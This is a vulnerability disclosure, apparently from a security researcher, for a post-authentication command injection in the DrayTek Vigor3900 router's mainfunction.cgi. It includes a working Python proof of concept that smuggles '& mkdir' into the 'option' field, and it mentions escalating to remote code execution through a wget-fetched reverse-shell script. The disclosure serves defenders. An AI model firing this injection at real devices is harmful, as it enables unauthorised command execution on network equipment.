





# There is a post-authorization command injection vulnerability in vigor3900

## 1、Basic Information

- Supplier:`DrayTek`
- Product:`vigor3900`
- Firmware version:`1.5.1.6`
- Type:`Command Injection`

## 2、Vulnerability Description

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file. The file improperly filters the values of related fields when processing requests, resulting in command injection, as shown below.



We can control the value of the `option` field to control the execution of the `system` function. After obtaining the value of the `option` field, it will be assigned to `value`, and then `value` will be filtered by the `filter_string` function, but the function does not filter the `space` and `&` characters, which will lead to command injection. Although `v4` is closed with single quotes in `v8`, the `/sbin/logread >/tmp/'%s'` statement will create a file in the `tmp` directory.

For example, executing `/sbin/logread > /tmp/'a & mkdir hack & '` will create a file named `a & mkdir hack & ` in `tmp`.



Then when you operate on the file later, for example, use `ls -lla a & mkdir hack & ` to view the file, it becomes executing `ls -lla a` first, and then executing the `mkdir hack` command. In this way, if a malicious person constructs related commands, such as downloading a rebound script through `wget` and then executing the script, it can lead to `RCE`.



## 3、Vulnerability Verification

The constructed POC is as follows, where the relevant `Cookie` value is required.

```python
import requests

def send_post_request(ip_address, session_cookie, option_value):
    url = f"http://{ip_address}/cgi-bin/mainfunction.cgi"

    headers = {
        "Host": ip_address,
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
        "Cookie": session_cookie,
        "Connection": "close"
    }

    data = {
        "action": "dumpSyslog",
        "option": option_value
    }

    response = requests.post(url, headers=headers, data=data)
    return response.text

ip_address = "10.10.10.2"
session_cookie = "SESSION_ID_VIGOR=7:F657C2D5AE041116E7003E8F7C8B7EFA"
option_value = "a & mkdir jfkk2 &"

response_text = send_post_request(ip_address, session_cookie, option_value)
print(response_text)

```

As can be seen below, we successfully created a folder named `jfkk2`





## 4、Reporter

- #### ✨jfkk (jfkk2331997024@gmail.com)